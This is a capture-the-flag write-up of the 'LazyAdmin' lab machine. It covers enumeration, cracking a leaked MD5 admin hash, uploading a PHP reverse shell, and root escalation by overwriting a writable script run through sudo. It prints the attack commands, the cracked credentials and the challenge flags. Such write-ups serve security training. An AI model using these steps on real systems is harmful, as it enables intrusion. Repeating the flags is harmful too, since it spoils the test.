






LazyAdmin
Summary:
In this challenge, we are presented with an Apache webserver running SweetRice as it's content management system. However, it is not properly secured. It's possible to retrieve and crack the admin password from a hidden
directory. After gaining access to the admin dashboard, arbitrary files including reverse shell scripts can be uploaded to gain shell access to the machine. On the machine itself are 2 shell scripts whose access rights are
misconfigured. The first script can be executed by the user using sudo and the second script gets executed by the first one. The problem is that the second script can be altered by the user to do anything they want.
This allows an attacker to escalate their privileges.
What is the user flag? After scanning the machine using
sudo nmap -A <IP> we can see that port 22 (SSH) and port 80 (HTTP) are open:

Since this machine is running a HTTP webserver we can use a browser and see what website it serves. Doing so reveals only the Apache default page.
So next we can use Gobuster to try and enumerate any hidden websites.
After executing gobuster dir -u 10.10.118.48 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt we can see that, among others, there is a hidden website called /content.
<---IMG-->
If we visit that site (<IP>/content) in our browser we can see that somebody has set up the SweetRice Content Management System on this server:

We can now use Google to search for any potential vulnerabilities that SweetRice might have introduced. What we can find is that SweetRice 1.5.1 discloses backups through the /inc subpage (
https://www.exploit-db.com/exploits/40718). Indeed, visiting <IP>/content/inc shows us a directory full of files. In this directory, there's another sub-directory called ‘mysql_backup’, which contains ‘mysql_bakup_20191129023059-1.5.1.sql’.
If we download this file and take a closer look at it, we can see that this database file contains what appears to be the username of the admin account as well as its password hash:
username: manager
hash: 42f749ade7f9e195bf475f37a44cafcb
Next, we can use a website like
https://www.tunnelsup.com/hash-analyzer/ to determine what algorithm was used to produce this hash. This website identifies the hash as an MD5 hash, which is very insecure. Now we can use John the Ripper to try and crack it:
First, we save this hash in a file and then we can use John as follows.
john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt <file path> To reveal the cracked password we use the --show flag:
john --show --format=raw-md5 <file path> As it turns out, the cracked password is ‘Password123’. So our login credentials are as follows:
username: manager
password: Password123
Now, we just need to find out where we can use these credentials to log in.
To do that, we can use Gobuster again. But this time, we'll let it enumerate all websites starting at <IP>/content:
gobuster dir -u <IP>/content -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt Using Gobuster reveals a bunch of sites:

Checking them, we can see that <IP>/content/as is a login portal, where we can try the credentials we just discovered. Doing so, we manage to gain access to the admin portal:

Now that we have access to the admin dashboard we can have a look around and see what we can do. One thing that sticks out is that we can now create posts and attach files to them:

We can try to gain a remote shell via Pentestmonkey's reverse PHP shell (
https://github.com/pentestmonkey/php-reverse-shell). All we need to do is change the IP to that of our attack machine.
However, if we try to upload it as is, it won't work. We also need to change the suffix to .php5. Once we have done that we can access our file at <IP>/content/attachment/<filename>.php5.
Before we do this, we just need to create a listener. We can easily do this with Netcat:
nc -nlvp 8080 Now, if we access the file we uploaded we should get a reverse shell:

If we check which user we are logged in via
whoami we can see that we are www-data, the user under which the Apache server runs.
Next we can go to the /home directory to see what other users there are on the system. The only other user with a home directory appears to be itguy.
Inside this folder there's the flag:
cat user.txt Answer: THM{63e5bce9271952aad1113b6f1ac28a07} What is the root flag? Perhaps we first want to stabalize our shell to make navigating around the machine a little more comfortable. We can get a bash shell through Python as follows:
python -c 'import pty; pty.spawn("/bin/bash")' Next, we can poke around a little to see whether or not we can find anything interesting that might help us to escalate our privileges. If we use
sudo -l we can see that we are
allowed to use
/usr/bin/perl /home/itguy/backup.pl without knowing the sudo password. Checking the file itself, we can see that it executes /etc/copy.sh in a shell.
As it turns out we can read and write to that file. This means that we can write code to create another reverse shell inside this file and then indirectly execute it as root user by
using
sudo /usr/bin/perl /home/itguy/backup.pl.
Let's try it.
Since we already uploaded a reverse shell script we can just reuse that one. It's located in /var/www/html/content/attachment/. Now all we need to do is to make copy.sh execute it:
echo "php /var/www/html/content/attachment/monkey.php5" > /etc/copy.sh Then we just need to start another listener on the attack machine and execute backup.pl using sudo. Afterwards we should have root access to the machine. This means that we can
now read the content of /root/root.txt.
Answer: THM{6637f41d0177b6f37cb20d775124699f